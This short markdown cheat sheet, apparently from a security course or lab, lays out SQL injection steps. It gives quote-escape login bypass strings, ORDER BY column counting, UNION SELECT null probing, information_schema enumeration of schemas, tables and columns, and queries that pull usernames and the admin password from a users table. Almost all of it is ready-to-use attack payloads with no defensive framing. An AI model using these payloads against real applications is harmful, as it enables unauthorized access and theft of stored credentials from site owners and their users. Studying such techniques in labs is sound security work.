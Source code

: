 ## Steps to Follow for SQL Injection  
  
1. First try to find whether or not we can escape using ' in string fields during queries.
    Try `' or 1=1'` or `admin' or 1=1;--` and other such similar things.  

1. Here, we need to escape the passwords/ strings closing quote `'`  
    Either do `' or 1=1'`, extra quote at end to compensate the string quote.       
    Or try `' or 1=1;--` use comments to escape.   
    Or try `' or 1-1 #` use hash to escape.   
1. Determine number of rows of query by   
    `order by 1-- # `,     
    `order by 2-- #`
1. Now, find number null columns by using.    
    `union select null, .... or '`,  
    `union select null, null, .. or '`,  
1. Guess schema name using information_schema.tables.   
    Try guess table_schema, table_name.   

    1. `123' union select table_schema from information_schema.tables #`
    1. `123' union select table_name from information_schema.tables where table_schema = 'isaa_db' #`   

    Get attribute names

    1. ```sql
        123' union select column_name from information_schema.columns where table_schema = 'isaa_db' and table_name = 'users' #
        ```

    1. Now, we have field names try and guess users and passwords.   
        1. `123' union select username from users order by username #`
        1. `123' union select password from users where username='admin' #`
1. Guess table or try to union select table name from information_schema.tables.
1. Now, try to use union select to get other atttributes
    `union select <guess attribute name>>`